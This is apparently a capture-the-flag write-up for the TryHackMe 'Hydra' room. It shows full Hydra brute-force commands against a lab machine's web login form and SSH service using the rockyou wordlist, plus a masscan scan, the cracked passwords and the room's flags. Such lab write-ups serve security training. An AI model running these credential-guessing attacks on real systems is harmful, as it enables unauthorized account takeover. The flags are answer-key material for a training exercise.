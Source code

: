 ```yaml
---
title:  "TryHackMe | Hydra"
layout: post

---
```


### Use Hydra to bruteforce molly's web password. What is flag 1?

we navigate to the box ip address and is presented with a web login form

first use burpsuite to get the http-form-post format

```
username=myname&password=mypass
```

then type in a random password in the login form to get the error message

```
Your username or password is incorrect.
```

pass the above information to hydra to crack the password

```
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.109.118 -t 4 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 01:22:10

[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://10.10.109.118:80/login:username=^USER^&password=^PASS^:F=incorrect
[80][http-post-form] host: 10.10.109.118   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 01:22:31

```

then login through the web from to retrieve the flag

```
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

### Use Hydra to bruteforce molly's SSH password. What is flag 2?

we run a masscan and discover the ssh port is on 22

```
kali@kali:~$ sudo masscan -e tun0 -p1-65535,U:1-65535 10.10.109.118 --rate=1000 
[sudo] password for kali: 

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-07-26 05:29:28 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.109.118                                   
Discovered open port 80/tcp on 10.10.109.118   
```

run hydra on ssh

```
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.109.118 -t 4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 01:35:44
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.109.118:22/
[22][ssh] host: 10.10.109.118   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 01:36:45
```

login with ssh to get the flag

```
kali@kali:~$ ssh molly@10.10.109.118
The authenticity of host '10.10.109.118 (10.10.109.118)' can't be established.
ECDSA key fingerprint is SHA256:unCPHS1biHvV16V6fxPiE92GiW1Wk+qeHL5OSp1gOOA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.109.118' (ECDSA) to the list of known hosts.
molly@10.10.109.118's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.


Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-109-118:~$ ls
flag2.txt
molly@ip-10-10-109-118:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}

```
